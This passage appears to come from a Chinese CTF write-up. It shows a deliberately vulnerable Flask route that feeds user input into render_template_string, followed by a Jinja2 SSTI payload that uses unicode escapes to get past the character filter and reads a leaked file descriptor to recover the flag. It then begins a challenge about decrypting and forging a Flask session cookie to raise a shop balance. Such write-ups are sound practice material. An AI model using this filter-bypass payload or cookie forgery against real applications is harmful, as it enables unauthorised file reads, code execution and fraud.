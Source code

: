 ```
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)

        except Exception as e:
            print(e)
            return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

经过阅读源码我们，app.py会打开/app/flag文件，然后读取其中的内容进行加密，加密函数在提示中给出的源码中。最后会删掉flag。话不多少，直接读取/proc/self/fd/3，得到Flag：

```
`{``{`()["\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f"]["\u005f\u005f\u0062\u0061\u0073\u0065\u0073\u005f\u005f"][0]["\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f"]()[91]["\u0067\u0065\u0074\u005f\u0064\u0061\u0074\u0061"](0, "/proc/self/fd/3")`}``}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01361216102591094b.png)



## [PASECA2019]honey_shop

进入题目，是一个商店：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01eb7e5d3439affc65.png)

可以购买flag：

[![](https://p4.ssl.qhimg.com/t01c8a3fe5acc55f1c5.png)](https://p4.ssl.qhimg.com/t01c8a3fe5acc55f1c5.png)

但是我们钱不够，这种题一般就是修改cookie。查看cookie，尝试flask session解密，如下图成功解密：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d72dee1ebaeef176.png)

那么我们的思路就是将session中代表金钱的balance该多点就行了。但是既然要修改flask session，我们肯定还需要获取secret key。
